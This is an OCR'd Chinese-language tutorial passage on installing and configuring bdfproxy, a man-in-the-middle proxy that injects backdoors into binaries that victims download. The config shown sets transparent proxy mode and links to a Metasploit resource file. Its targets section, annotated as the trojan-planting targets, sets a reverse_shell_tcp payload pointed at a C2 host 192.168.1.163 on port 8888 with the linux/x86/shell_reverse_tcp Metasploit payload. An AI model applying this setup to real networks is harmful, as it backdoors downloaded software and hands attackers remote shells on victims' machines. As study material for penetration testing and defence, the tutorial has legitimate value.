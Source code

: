 安装bdfproxy以及相关的依赖软件包

默认情况下，您极有可能安装bdfproxy至

```
/usr/share/bdfproxy

```

如果您是直接从git上获得并编译的源代码，请自己寻找您的bdfproxy配置文件的路径

默认的配置文件可能在/etc/bdfproxy下

修改其中的部分内容如下：

```
# 
#   Author Joshua Pitts the.midnite.runr 'at' gmail <d ot > com
#   
#   Copyright (c) 2013-2014, Joshua Pitts
#   All rights reserved.
#

bdf以及bdfproxy的作者为Joshua Pitts，联系方式如上，He is awesome!!!

[Overall]
transparentProxy = transparent  # Modes: None, socks5, transparent, reverse, upstream
我们使用的是透明代理模式，默认的是常规代理模式，区别是常规代理模式通过浏览器设置代理然后通过代理协议传输数据（格式和普通HTTP请求不一样），而透明代理则完全是流量转发格式不变，因此我们在这里使用透明代理
MaxSizeFileRequested = 100000000 # will send a 502 request of large content to the client (server error)
最大文件大小，过大的话会返回502页面，建议使用小文件测试
certLocation = ~/.mitmproxy/mitmproxy-ca.pem
这是mitm的依赖库需要的证书，如果您遇到的报错和这个有关，先手动运行一下mitmf
proxyPort = 8080
sslports = 443, 8443
loglevel = INFO
logname = proxy.log
resourceScript = bdfproxy_msf_resource.rc
这个是和Metasploit结合的resource文件，之后的命令部分和这个文件名有关


[targets]
//挂马的目标
    #MAKE SURE that your settings for host and port DO NOT
    # overlap between different types of payloads

    [[ALL]] # DEFAULT settings for all targets REQUIRED

    LinuxType = ALL     # choices: x86/x64/ALL/None
    WindowsType = ALL   # choices: x86/x64/ALL/None
    FatPriority = x64   # choices: x86 or x64

    FileSizeMax = 60000000  # ~60 MB (just under) No patching of files this large

    CompressedFiles = True #True/False
        [[[LinuxIntelx86]]]
        SHELL = reverse_shell_tcp   # This is the BDF syntax
        默认用的是BDF的reverse_shell_tcp，其他选项看BDF文档
        HOST = 192.168.1.163        # The C2
        这是PAYLOAD中的LHOST，就是开着Metasploit等着SHELL反弹的设备IP
        PORT = 8888
        端口不要和PROXY的重复了
        SUPPLIED_SHELLCODE = None
        MSFPAYLOAD = linux/x86/shell_reverse_tcp    # MSF syntax
        这个是Metasploit的PAYLOAD名称，相当于SET PAYLOAD命令

```